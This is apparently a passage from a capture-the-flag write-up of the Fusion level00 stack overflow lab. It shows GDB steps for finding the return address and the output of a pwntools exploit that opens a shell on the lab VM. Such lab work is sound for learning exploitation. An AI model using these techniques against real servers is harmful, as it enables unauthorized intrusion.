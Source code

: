 > [!NOTE] Place two addresses in you payload, one for `$esp` register and the second for the `$eip` register.

### Debugging using GDB
```Bash - Fusion-VM
fusion@fusion:/tmp$ ps -ef | grep level00
20000     2059     1  0 06:01 ?        00:00:00 ./level00                    # This is the server process. PID=2059 PPID=1
20000     3200  2059  0 08:50 ?        00:00:00 ./level00                    # This is the Client process. PID=3200 PPID=2059
fusion    3202  1755  0 08:50 pts/0    00:00:00 grep --color=auto level00
fusion@fusion:/tmp$ sudo gdb
```
```GDB - Fusion-VM
(gdb) attach 3200
(gdb) b *fix_path+63 # This is a breakpoint before fix_path() returns.
(gdb) c
...      # Now I let the script continue on my Main-VM.
(gdb) x/1x $esp
<Actual-Return-Address> # Should be pointing at shellcode address that was stored in the buffer on the stack.
(gdb) c
```
```Bash - Main-VM
user@user-virtual-machine:~/projects/fusion/level00$ ./script.py
[+] Opening connection to 192.168.1.23 on port 20000: Done
/home/user/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:1434: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  return func(self, *a, **kw)
0xbfdc1ce8

[*] Switching to interactive mode
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
media
mnt
opt
proc
rofs
root
run
sbin
selinux
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$  
```
---
## Summery